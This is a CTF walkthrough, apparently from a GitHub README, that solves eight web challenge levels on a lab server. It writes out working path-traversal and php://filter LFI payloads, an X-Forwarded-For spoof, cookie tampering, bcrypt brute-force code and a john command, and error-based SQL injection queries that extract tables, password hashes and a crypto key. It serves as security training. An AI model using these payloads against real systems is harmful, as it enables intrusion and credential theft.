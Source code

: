 ## Solutions

**Note:** Each flag is part of the URL for the next level.

### Level 1 - http://webctfserver/level1/
- Look at HTML comment. Convert Binary to Hex to Ascii using Burp/online tools/scripting
- Ascii to rot13(ascii) gives: `The username and password are what you would find at 40.4168 N, 3.7038 W and 33.5731 N, 7.5898 W`
- Google search for the co-ordinates to find Madrid and Casablanca
- username: Madrid, password: Casablanca
- Flag: 0966615f9af15abfa9bd1ef405b42aef


### Level 2 - http://webctfserver/0966615f9af15abfa9bd1ef405b42aef/
- Look at HTML comment to find a SHA1 string
- Brute force using `hashcat64 -m100 hash.txt rockyou.txt` to get tokyohotel
- Download `/0966615f9af15abfa9bd1ef405b42aef/tokyohotel/backup.sql`
- base64 decode password to obtain 'isveryscaredofthedarkness'
- login using `alice:isveryscaredofthedarkness` to obtain flag
- Flag: 70e6766da6d53898bcd7766a04175836


### Level 3 - http://webctfserver/70e6766da6d53898bcd7766a04175836/
- HTML comment has developer name hinting at possible username `bob`
- username: bob, weak password, password:bob
- From email, flag is in /home/james/ directory
- read using `page=php://filter/read=convert.base64-encode/resource=/home/james/flag.txt`
- Base64 decode to obtain flag
- Can also be read using `page=qqq/../../../../../../../../home/james/flag.txt`
- Flag: 767ca3fb84576846dc53d9efdd51c339


### Level 4 - http://webctfserver/767ca3fb84576846dc53d9efdd51c339/
- HTML shows session.js is loaded
- session.js is obfuscated JS. Beautify and cleanup JS using the developer console or online tools.
- JS reveals login folder name 'level4login'
- sessionStorage contains username & password
- snape:hatedjamespotter
- Flag: 2da51fcf5250842da9426bdcfcd8bbc2


### Level 5 (Hackim Web 100) - http://webctfserver/2da51fcf5250842da9426bdcfcd8bbc2/
 
- Page source reveals an HTML comment: MDkzMWNjMTU2ODNiODdkYTYxODg2YzBmNmQwNjIxYzQ=
- This is base64 decoded to obtain a MD5 hash. 
- Google search shows its value as 'hackim'
- username: hackim; password: hackim
- Can't login, bcz IP not permitted.
- Add X-Forwarded-For header, same as source IP (`X-Forwarded-For: 127.0.0.1`)
- Flag: 4f9361b0302d4c2f2eb1fc308587dfd6


### Level 6 (Hackim Web 200) - http://webctfserver/4f9361b0302d4c2f2eb1fc308587dfd6/

- Register multiple users with different names
- when a limited user logs in, message tells him he cannot see the flag.
- stack cookies and see that the first 10bytes remain static. The r cookie's last 32 chars can be MD5 reveresed to the string 'limited'
- change the cookie value for the 'r' cookie
- md5('admin') to be appended. Set cookie.
- Flag: bb6df1e39bd297a47ed0eeaea9cac7ee


### Level 7 (Hackim Web 400) - http://webctfserver/bb6df1e39bd297a47ed0eeaea9cac7ee/

- Page source shows partial password as kztu6fe1m68mwf7vl1g3grjzmocia043pmno83q3ati98c8r324dzc0hc7n41p6tdjg6p
- Also, HTML comment tells of a database dump >> database.sql
- Database contains table `users` with column `password_bcrypt`. 
- The value of the password hash is $2y$10$FalJ8SmqTDBv7Fr366RC9uW5hKJVZijsDqzgASh1kSGMsUFMMLGZq
- Using the partial password (length 69) and the column name in the db, we know this is BCRYPT which is truncated to 72 chars.
- Brute force the remaining 3 characters (7ld) using the script below (~45 minutes) or using john (~40 seconds)

```
john bcrypthash.txt --mask=kztu6fe1m68mwf7vl1g3grjzmocia043pmno83q3ati98c8r324dzc0hc7n41p6tdjg6p?2?2?2 --min-length=72 --max-length=72
```

```
<?php
$partial = 'kztu6fe1m68mwf7vl1g3grjzmocia043pmno83q3ati98c8r324dzc0hc7n41p6tdjg6p';
$hash = '$2y$10$FalJ8SmqTDBv7Fr366RC9uW5hKJVZijsDqzgASh1kSGMsUFMMLGZq';

$arr=array('a','b','c','d','e','f','g','h','i','j','k','l','m','n','o','p','q','r','s','t','u','v','w','x','y','z','0','1','2','3','4','5','6','7','8','9');
foreach($arr as $i) {
    foreach($arr as $j) {   
        foreach($arr as $k) {   
            if (password_verify($partial.$i.$j.$k, $hash)===true){
                echo "Password is: ".$partial.$i.$j.$k;
                break;
            }
        }
    }
}
?>
```
- run using php -f solution.php (takes about 45 mins on standard hardware)
- Flag: b7ebfe2a47f711a7b2b5bff057600a2c


## Level 8 (Hackim Web 500) - http://webctfserver/b7ebfe2a47f711a7b2b5bff057600a2c/

- SQL injection in user agent. Fails the single quote test.
- Get username and password(md5)
- Google search md5 of password.
- login
- LFI via encrypted param
- decrypt using key. Key in DB. Get using SQLi.
- encrypt filename for flag file (flagflagflagflag). Encryption function can be found using Google search.
- read flag

SQL Injection queries

```
' and extractvalue(1, concat(1,(select database())))=0 -- //

' and extractvalue(1, concat(1,(select group_concat(table_name) from information_schema.columns where table_schema=database() AND table_name <> 'accounts' AND table_name <> 'cryptokey')))=0 -- //

' and extractvalue(1, concat(1,(select group_concat(table_name) from information_schema.tables where table_schema=database())))=0 -- //

' and extractvalue(1, concat(1,(select group_concat(column_name) from information_schema.columns where table_schema=database() AND table_name='accounts')))=0 -- //Returns: uid,uname,pwd,age,zipcode

' and extractvalue(1, concat(1,(select uname from accounts)))=0 -- //

' and extractvalue(1, concat(1,(select pwd from accounts)))=0 -- //

' and extractvalue(1, concat(1,(select mid(pwd,16,16) from accounts)))=0 -- //Because password is 32 chars. Reverse MD5 this using Google search.

' and extractvalue(1, concat(1,(select group_concat(column_name) from information_schema.columns where table_schema=database() AND table_name='cryptokey')))=0 -- //Returns: id,keyval,keyfor

' and extractvalue(1, concat(1,(select keyval from cryptokey)))=0 -- //Returns TheTormentofTantalus

```

```
<?php

$enc="PUT ENCRYPTED VALUE HERE";
echo encrypt();
function decrypt($enc){
        $key = "TheTormentofTantalus";
        $data = base64_decode($enc);
        $iv = substr($data, 0, mcrypt_get_iv_size(MCRYPT_RIJNDAEL_128, MCRYPT_MODE_CBC));
        $decrypted = rtrim(mcrypt_decrypt(MCRYPT_RIJNDAEL_128,hash('sha256', $key, true),substr($data, mcrypt_get_iv_size(MCRYPT_RIJNDAEL_128, MCRYPT_MODE_CBC)),MCRYPT_MODE_CBC,$iv),"\0");
        return $decrypted;
}

function encrypt(){
        $plain = "flagflagflagflag";
        //$plain = "flag-hint";
        $key = "TheTormentofTantalus";
        $iv = mcrypt_create_iv(mcrypt_get_iv_size(MCRYPT_RIJNDAEL_128, MCRYPT_MODE_CBC),MCRYPT_DEV_URANDOM);
        $encrypted = base64_encode($iv.mcrypt_encrypt(MCRYPT_RIJNDAEL_128,hash('sha256', $key, true),$plain,MCRYPT_MODE_CBC,$iv));
        return $encrypted;
}

?>
```


